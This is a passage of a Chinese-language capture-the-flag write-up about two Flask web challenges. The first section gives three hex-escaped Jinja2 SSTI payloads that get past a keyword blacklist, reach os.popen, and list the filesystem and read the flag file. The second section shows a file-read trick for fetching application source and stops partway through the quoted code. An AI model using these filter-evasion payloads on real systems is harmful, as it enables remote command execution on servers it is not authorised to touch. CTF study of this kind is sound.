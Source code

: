 ```PYTHON

  return {"error": error.description}, 403

 

if __name__ == '__main__':

  app.run("0.0.0.0",debug=False)
```

 审计代码，发现仅有txt', 'log', 'text','md','jpg','png','gif格式的文件可以上传，再结合标题提示的ssti，和检查上传文件内容中有无`dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]`，全是ssti常用的字符和函数。故猜测可以利用ssti模板注入，且注入点为上传的文件

 验证一下我的猜想，写一个1.txt内容为{{2*2}}，上传后打开/file/1.txt，发现回显的是4，存在ssti模板注入 

写一个2.txt，内容依次为:

```
payload1：
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]['\x5f\x5fsubc'+'lasses\x5f\x5f']()}}

 payload2：
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]['\x5f\x5fsubc'+'lasses\x5f\x5f']()[137]["\x5f\x5finit\x5f\x5f"]['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['popen']('ls /').read()}}

 payload3：
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]['\x5f\x5fsubc'+'lasses\x5f\x5f']()[137]["\x5f\x5finit\x5f\x5f"]['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['popen']('cat /f*').read()}}
```

上传完打开/file/2.txt即可得到flag



------

### easyflask

一打开就看到了提示/file?file=index.js

打开后得到了第二个提示：Here is a js file. Source at /app/source 

一眼文件读取，直接把file后的index.php，改成/app/source即可读取源码

```python
\#!/usr/bin/python3.6

import os

import pickle

from base64 import b64decode

from flask import Flask, request, render_template, session

\#初始化flask应用，设立了一个密钥SECRET_KEY

app = Flask(__name__)

app.config["SECRET_KEY"] = "*******"

\#定义了User类

User = type('User', (object,), {

  'uname': 'test',

```
